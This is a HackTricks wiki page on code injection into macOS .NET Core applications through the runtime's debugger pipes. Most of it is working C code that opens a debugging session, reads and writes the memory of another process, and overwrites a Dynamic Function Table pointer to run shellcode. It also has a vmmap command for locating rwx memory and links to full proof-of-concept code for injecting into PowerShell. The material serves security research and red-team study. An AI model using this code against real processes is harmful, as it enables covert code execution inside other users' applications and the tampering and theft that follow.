 # macOS .Net Applications Injection

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## .NET Core Debugging <a href="#net-core-debugging" id="net-core-debugging"></a>

### **Stablish a debugging session** <a href="#net-core-debugging" id="net-core-debugging"></a>

[**dbgtransportsession.cpp**](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/shared/dbgtransportsession.cpp) is responsible for handling debugger to debugee **communication**.\
It creates a 2 of names pipes per .Net process in [dbgtransportsession.cpp#L127](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/shared/dbgtransportsession.cpp#L127) by calling [twowaypipe.cpp#L27](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/debug-pal/unix/twowaypipe.cpp#L27) (one will end in **`-in`** and the other in **`-out`** and the rest of the name will be the same).

So, if you go to the users **`$TMPDIR`** you will be able to find **debugging fifos** you could use to debug .Net applications:

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

The function [**DbgTransportSession::TransportWorker**](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/shared/dbgtransportsession.cpp#L1259) will handle the communication from a debugger.

The first thing a debugger is required to do is to **create a new debugging session**. This is done by **sending a message via the `out` pipe** beginning with a `MessageHeader` struct, which we can grab from the .NET source:

```c
struct MessageHeader
{
    MessageType   m_eType;        // Type of message this is
    DWORD         m_cbDataBlock;  // Size of data block that immediately follows this header (can be zero)
    DWORD         m_dwId;         // Message ID assigned by the sender of this message
    DWORD         m_dwReplyId;    // Message ID that this is a reply to (used by messages such as MT_GetDCB)
    DWORD         m_dwLastSeenId; // Message ID last seen by sender (receiver can discard up to here from send queue)
    DWORD         m_dwReserved;   // Reserved for future expansion (must be initialized to zero and
                                            // never read)
        union {
            struct {
                DWORD         m_dwMajorVersion;   // Protocol version requested/accepted
                DWORD         m_dwMinorVersion;
            } VersionInfo;
          ...
        } TypeSpecificData;

    BYTE                    m_sMustBeZero[8];
}
```

In the case of a new session request, this struct is populated as follows:

```c
static const DWORD kCurrentMajorVersion = 2;
static const DWORD kCurrentMinorVersion = 0;

// Set the message type (in this case, we're establishing a session)
sSendHeader.m_eType = MT_SessionRequest;

// Set the version
sSendHeader.TypeSpecificData.VersionInfo.m_dwMajorVersion = kCurrentMajorVersion;
sSendHeader.TypeSpecificData.VersionInfo.m_dwMinorVersion = kCurrentMinorVersion;

// Finally set the number of bytes which follow this header
sSendHeader.m_cbDataBlock = sizeof(SessionRequestData);
```

Once constructed, we **send this over to the target** using the `write` syscall:

```c
write(wr, &sSendHeader, sizeof(MessageHeader));
```

Following our header, we need to send over a `sessionRequestData` struct, which contains a GUID to identify our session:

```c
// All '9' is a GUID.. right??
memset(&sDataBlock.m_sSessionID, 9, sizeof(SessionRequestData));

// Send over the session request data
write(wr, &sDataBlock, sizeof(SessionRequestData));
```

Upon sending over our session request, we **read from the `out` pipe a header** that will indicate **if** our request to establish whether a debugger session has been **successful** or not:

```c
read(rd, &sReceiveHeader, sizeof(MessageHeader));
```

### Read Memory

With a debugging sessions stablished it's possible to **read memory** using the message type [`MT_ReadMemory`](https://github.com/dotnet/runtime/blob/f3a45a91441cf938765bafc795cbf4885cad8800/src/coreclr/src/debug/shared/dbgtransportsession.cpp#L1896). To read some memory the main code needed would be:

```c
bool readMemory(void *addr, int len, unsigned char **output) {

    *output = (unsigned char *)malloc(len);
    if (*output == NULL) {
        return false;
    }

    sSendHeader.m_dwId++; // We increment this for each request
    sSendHeader.m_dwLastSeenId = sReceiveHeader.m_dwId; // This needs to be set to the ID of our previous response
    sSendHeader.m_dwReplyId = sReceiveHeader.m_dwId; // Similar to above, this indicates which ID we are responding to
    sSendHeader.m_eType = MT_ReadMemory; // The type of request we are making
    sSendHeader.TypeSpecificData.MemoryAccess.m_pbLeftSideBuffer = (PBYTE)addr; // Address to read from
    sSendHeader.TypeSpecificData.MemoryAccess.m_cbLeftSideBuffer = len; // Number of bytes to write
    sSendHeader.m_cbDataBlock = 0;

    // Write the header
    if (write(wr, &sSendHeader, sizeof(sSendHeader)) < 0) {
        return false;
    }

    // Read the response header
    if (read(rd, &sReceiveHeader, sizeof(sSendHeader)) < 0) {
        return false;
    }

    // Make sure that memory could be read before we attempt to read further
    if (sReceiveHeader.TypeSpecificData.MemoryAccess.m_hrResult != 0) {
        return false;
    }

    memset(*output, 0, len);
    
    // Read the memory from the debugee
    if (read(rd, *output, sReceiveHeader.m_cbDataBlock) < 0) {
        return false;
    }

    return true;
}
```

The proof of concept (POC) code found [here](https://gist.github.com/xpn/95eefc14918998853f6e0ab48d9f7b0b).

### Write memory

```c
bool writeMemory(void *addr, int len, unsigned char *input) {

  sSendHeader.m_dwId++; // We increment this for each request
  sSendHeader.m_dwLastSeenId = sReceiveHeader.m_dwId; // This needs to be set to the ID of our previous response
  sSendHeader.m_dwReplyId = sReceiveHeader.m_dwId; // Similar to above, this indicates which ID we are responding to
  sSendHeader.m_eType = MT_WriteMemory; // The type of request we are making
  sSendHeader.TypeSpecificData.MemoryAccess.m_pbLeftSideBuffer = (PBYTE)addr; // Address to write to
  sSendHeader.TypeSpecificData.MemoryAccess.m_cbLeftSideBuffer = len; // Number of bytes to write
  sSendHeader.m_cbDataBlock = len;

  // Write the header
  if (write(wr, &sSendHeader, sizeof(sSendHeader)) < 0) {
      return false;
  }

  // Write the data
  if (write(wr, input, len) < 0) {
      return false;
  }

  // Read the response header
  if (read(rd, &sReceiveHeader, sizeof(sSendHeader)) < 0) {
      return false;
  }

  // Ensure our memory write was successful
  if (sReceiveHeader.TypeSpecificData.MemoryAccess.m_hrResult != 0) {
      return false;
  }

  return true;

}
```

The POC code used to do this can be found [here](https://gist.github.com/xpn/7c3040a7398808747e158a25745380a5).

### .NET Core Code execution <a href="#net-core-code-execution" id="net-core-code-execution"></a>

The first thing is to identify for example a memory region with **`rwx`** running to save the shellcode to run. This can be easily done with:

```bash
vmmap -pages [pid]
vmmap -pages 35829 | grep "rwx/rwx"
```

Then in order to trigger the execution it would be needed to know some place where a function pointer is stored to overwrite it. It's possible to overwrite a pointer within the **Dynamic Function Table (DFT)**, which is used by the .NET Core runtime to provide helper functions for JIT compilation. A list of supported function pointers can be found within [`jithelpers.h`](https://github.com/dotnet/runtime/blob/6072e4d3a7a2a1493f514cdf4be75a3d56580e84/src/coreclr/src/inc/jithelpers.h).

In x64 versions this is straightforward using the mimikatz-esque **signature hunting** technique to search through **`libcorclr.dll`** for a reference to the symbol **`_hlpDynamicFuncTable`**, which we can dereference:

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

All that is left to do is to find an address from which to start our signature search. To do this, we leverage another exposed debugger function, **`MT_GetDCB`**. This returns a number of useful bits of information on the target process, but for our case, we are interested in a field returned containing the **address of a helper function**, **`m_helperRemoteStartAddr`**. Using this address, we know just **where `libcorclr.dll` is located** within the target process memory and we can start our search for the DFT.

Knowing this address it's possible to overwrite the function pointer with our shellcodes one.

The full POC code used to inject into PowerShell can be found [here](https://gist.github.com/xpn/b427998c8b3924ab1d63c89d273734b6).

## References

* This technique was taken from [https://blog.xpnsec.com/macos-injection-via-third-party-frameworks/](https://blog.xpnsec.com/macos-injection-via-third-party-frameworks/)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
